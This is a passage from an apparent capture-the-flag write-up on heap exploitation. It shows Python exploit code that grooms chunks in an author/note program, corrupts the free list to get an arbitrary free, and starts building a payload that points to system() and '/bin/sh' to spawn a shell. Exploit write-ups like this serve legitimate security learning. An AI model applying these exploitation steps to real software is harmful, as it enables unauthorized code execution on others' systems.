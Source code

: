 Finally we allocate a new chunk which will go into the first freed block and finally note which will cover both third and fourth block.

So now we just construct the free primitive:

```python
log.info("Preparing chunk that will corrupt free list")
# System chunk
# Must be zero sized to properly align linked list
corrupt_list_chunk = add_author(b"a"*16, b"a"*16, b"0", b"0", b"")

log.info("Creating dummy chunks for arbitrary free")
# Creating 2 chunks to align memory
dummy = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)
dummy2 = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)

log.info("Freeing these chunks")
# Freeing them
free_author(dummy)
free_author(dummy2)

# Creating chunk which will get the arbitrary free pointer
size = b"48" # 8 bytes to align to 16 bytes, 32 to get over surname and name and finally pointer 8
system_chunk_addr = stack_ptr + 0xf0 # address for our system chunk (top chunk)
corrupt_list_chunk_packed = p64(system_chunk_addr)
payload = b"X"*40 + corrupt_list_chunk_packed

log.info("Overwriting dummy chunk for arb free")
arb_free_chunk = add_author(b"X"*16, b"X"*16, b"0", size, payload)

# Now we need to free this chunk and allocate one smaller
free_author(arb_free_chunk)

# To offset our next chunk
dummy = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)

# This must be zero size long note
free_bomb = add_author(b"A"*16, b"A"*16, b"0", b"0", b"")
```

Finally we have everything ready except the last chunk
```python
# Keep zero sized!
system_chunk = add_author(b"a"*16, b"a"*16, b"0", b"0", b"")
```

This must be zero sized, otherwise we won't overflow into the chunk.

So we execute the plan and free the `corrupt_list_chunk` and `free_bomb`:
```python
free_author(corrupt_list_chunk)
free_author(free_bomb)
```

Now the next chunk we allocate will be at the first place - we don't care about it. But the note will overflow into our fourth.
This means we need to construct this payload:
- Random author chunk
- author.Name + author.Surname of random data
- valid pointer to `/bin/sh` string (which will be after this chunk)
- random age value
- valid pointer to `system()` in libc
- `/bin/sh` string
```python

prefix = b"\x90" * 32 + p64(0xdeadbeefbeefdead) + b"\xff" * 8 + p64(0xdeadbeefbeefdead)
bin_sh_ptr = p64(stack_ptr + 0x128)
```